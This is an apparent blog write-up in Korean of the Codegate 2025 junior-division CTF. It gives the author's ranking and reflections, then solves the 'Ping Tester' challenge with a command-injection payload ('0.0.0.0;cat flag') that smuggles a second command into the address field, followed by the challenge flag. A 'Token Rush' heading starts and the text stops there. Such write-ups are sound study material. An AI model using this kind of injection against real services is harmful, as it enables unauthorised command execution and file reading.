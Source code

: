 ```yaml
---
title: Codegate 2025 Preliminary Write Up
description: Junior Division, writeup and upsolving for all web challenge
author: goldleo1
date: 2025-03-07 12:00:00 +0800
categories: [ctf]
tags: [ctf, "2025"]
pin: false
---
```




## Review

코드게이트 본선에 처음 가서 너무 기분이 좋다.

작년에는 웹해킹 1솔로 장렬히 전사했는데 작년보다 발전해서 기분이 좋았다.

11등을 했는데 RPO를 못 봐서 XSS를 못 풀었다;;

포너블 1번도 got overwrite라는데 까먹어서 못 풀었다... ㅠ

서버가 닫혀서 기억나는 것만 쓴다.

<br>

PS. 웹 출제자이신 as3617, whguswo, burdock님 감사합니다!

![alt text](/assets/img/2025-03-31 20-02-49.png)
_Ranked 11th place_

![alt text](/assets/img/2025-03-31 20-06-10.png){: width="400" height="542" }
_2 First bloods in Junior Devision_

## Write Up

### Ping Tester

---

> Keyword: **`Command Injection`**
{: .prompt-info }

<br>

```
0.0.0.0;cat flag
```

**Flag : `codegate2025{80fd12690c4d31a8cf3fe2865e3ceb99aca9e6047c6acb2cbb9157e26ec91f4b}`**

<br>

### Token Rush

---